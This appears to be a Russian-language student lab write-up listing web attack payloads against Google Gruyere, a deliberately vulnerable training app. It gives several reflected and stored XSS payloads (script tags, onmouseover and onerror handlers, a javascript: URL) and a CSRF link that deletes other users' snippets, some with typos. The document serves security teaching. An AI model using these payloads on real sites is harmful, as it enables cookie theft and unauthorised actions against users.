 # Payloads для gruyere

_Пример оформления работы_

## Payload 1

При переходе по ссылке `https://example.com/example`. Параметр `example` можно заменить на пейлоад `<script>alert(document.cookies)</script>` для выполнения Reflected XSS инъекции в элементе `<div id="search-query-param">...</div>`, который покажет куки файлы пользователя

Payload 1

При создании нового сниппета можно написать в нём <a onmouseover="alert(document.cookie) href='#'">text</a>, который будет выводит куки при наведении.

Payload 2

При изменении цвета профиля можно задать цвету атрибуты onmouseover black' onmouseover='alert(682)', который при наведении на него будет выводить alert.

Payload 3

При изменении профиля можно написать url в icon https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0 , который позволяет удалять сниппеты

Payload 4

В приват сниппет можно написать любой html тег например <img src=x onerror=alert('XSS')>, что выведит alert на странице.

Payload 5

В изменении иконки профиля можно вставить html тег img <img%20src="javascript:alert(document.cookie);"></img> - alert вывелся
